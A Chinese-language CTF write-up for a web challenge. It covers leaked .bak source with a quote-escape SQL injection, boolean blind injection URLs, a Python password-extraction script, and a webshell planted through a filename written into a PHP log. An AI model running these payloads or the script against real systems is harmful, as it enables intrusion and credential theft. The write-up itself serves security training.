








# 知识点：

# 1. .bak源码泄露

# 2. 布尔盲注

# 3. 文件上传

# 4. 利用文件名记录到日志文件，使日志文件变成shell文件

## 5. php开启short_open_tag=on，时，可以使用<? ?>代替<?php ?>


# 1.扫描文件后台，发现robots.txt文件

robots.txt文件提示：*.php.bak


# 2.得到image.php文内容

```javascript
<?php
include "config.php";

$id=isset($_GET["id"])?$_GET["id"]:"1";
$path=isset($_GET["path"])?$_GET["path"]:"";

$id=addslashes($id);
$path=addslashes($path);

$id=str_replace(array("\\0","%00","\\'","'"),"",$id);
$path=str_replace(array("\\0","%00","\\'","'"),"",$path);

$result=mysqli_query($con,"select * from images where id='{$id}' or path='{$path}'");
$row=mysqli_fetch_array($result,MYSQLI_ASSOC);

$path="./" . $row["path"];
header("Content-Type: image/jpeg");
readfile($path);
```


# 3.可以尝试注入，但是过滤了单引号

此时可以利用该addslashes和str_replace来造成单引号逃逸



单id=\\0，时，经过addslashes时被转义成了\\0

然后再经过str_replace的替换，替换了\0只剩下\，\到达id时将单引号转义，从而造成单引号逃逸。


此时sql语句为：

```javascript
select * from admin1 where id='\' or username='or 1=1;#'
```


但是没有回显，推测需要盲注


# 4. 尝试时间盲注没有反应，可能存在过滤。后面发现是布尔盲注

```javascript
?id=\\0&path=or+id=if(ascii(substr((select+username+from+users),1,1))
>1,1,0)%23 
```





```javascript
?id=\\0&path=or+id=if(ascii(substr((select+username+from+users),1,1))
>150,1,0)%23 
```




当查询结果为真时返回第一张图片，当为假时返回为空


# 5.构造exp

```javascript
import requests
import time
name=''
for j in range(1,21):
    # 可回显字符
    l = 32
    h = 127
    # 二分查找发，当l和h相等时，查找到中间，表示查找完，退出
    while abs(l-h)>1:
        i=int((l+h)/2)
        url="http://5b29503f-6ad9-44ab-8b01-5e72b51fe433.node3.buuoj.cn/image.php?id=\\0'&path= or ascii(substr((select password from users),"+str(j)+",1))>"+str(i)+"%23"
        r = requests.get(url)
        # 每次发包间隔0.005秒
        time.sleep(0.005)
        print(url)
        if r.status_code=='429':
            print('to fast')
        # 查找返回值为空，l=(l+h)/2,表示需要查找的值大于i，下次需要从i以上查找
        if not 'Content-Length' in r.headers:
            l = i
        else:
        #不为空 h=(l+h)/2，表示需要查找的值小于i，下次需要从i以下查找
            h = i
    name += chr(h)
print(name)
```


得到密码为：




# 6. 用户名为admin，登陆发现存在文件上传界面




上传文件之后，会给出日志文件的路径



且日志文件为php文件，会限制上传文件的文件名。


# 7.可以尝试将文件名写为一句话马，构造shell



发现会检测上传的文件的文件名，不能含有php


# 8.在一些特殊情况下<? ?>短标签也是可以执行的

当：short_open_tag=on时


去了php发现上传成功。去到日志php文件时，发现没有显示文件名，说明刚上传的文件名当作了php文件执行


# 9.蚁剑链接，根目录发现flag




